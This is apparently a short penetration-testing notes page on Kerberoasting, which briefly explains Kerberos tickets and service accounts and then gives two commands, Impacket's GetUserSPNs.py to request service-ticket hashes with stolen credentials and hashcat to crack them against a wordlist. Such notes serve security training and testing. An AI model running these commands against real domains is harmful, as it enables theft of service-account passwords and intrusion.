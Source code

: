 Kerberoasting takes advantage of Service Accounts. It attacks step 4 of the process below.
![image](https://github.com/user-attachments/assets/1d296fb8-cf21-4b2b-9fa1-05ae2f48b7f4)
* TGT = Ticket-Granting Ticket
* TGS = Ticket-Granting Service
* SPN = Service Principal Name
Anyone with compromised credentials can request a TGT.

TGS is encrypted with the servers account hash. Thus if it is cracked, we get the password to the Service Account.
# How to do it
Get the TGS of the DC:
```bash
GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP of DC] -request
```
Store the hash in a text file and decrypt the hash:
```bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```
